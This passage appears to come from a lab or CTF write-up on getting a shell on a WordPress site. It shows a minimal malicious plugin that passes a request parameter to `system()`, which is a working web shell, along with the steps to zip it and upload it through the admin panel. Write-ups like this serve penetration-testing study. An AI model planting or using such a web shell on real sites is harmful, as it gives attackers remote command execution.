 ## Getting a Shell

Feels like I have done a bunch of WordPress sites recently. With admin access, there are a bunch of ways to get a reverse shell. Have a read of [WordPress: Reverse Shell](https://www.hackingarticles.in/wordpress-reverse-shell/) to see some of the options including:

- The `wp_admin_shell_upload` Metasploit module
- Injecting code into a theme
- Upload malicious plugin
- Injecting code into a plugin

This time I wanted to try write a barebones WordPress plugin that was flexible to run code, and/or get a reverse shell. Here are the steps I used.

Create a base folder for the plugin, enter the folder, and create a PHP file for the code.

```none
mkdir pressexec
cd pressexec
touch pressexec.php
```

Create a minimal plugin file which takes an HTTP requests parameter. This way, we can pass paramters and run a variety of commands while uploading the plugin only once.

```none
<?php
/*
* Plugin Name: pressexec
* Version: 1.0.0
* Author: Some Person
* Author URI: http://someperson.com
* License: GPL2
*/
system($_REQUEST["cmd"])
?>
```

Create a ZIP archive of the base plugin folder, and name it `pressexec.zip`. If you view the ZIP file contents, you should see the following structure.

```none
└─$ zip -sf exploits/pressexec.zip
Archive contains:
  pressexec/
  pressexec/pressexec.php
Total 2 entries (155 bytes)
```

The upload is easy. Navigate to:

```none
Plugins > Add New > Upload Plugin > Browse
```

Select the ZIP file and `Install Now`. You might get some errors - but the plugin should be viewable on the _Installed Plugins_ page.
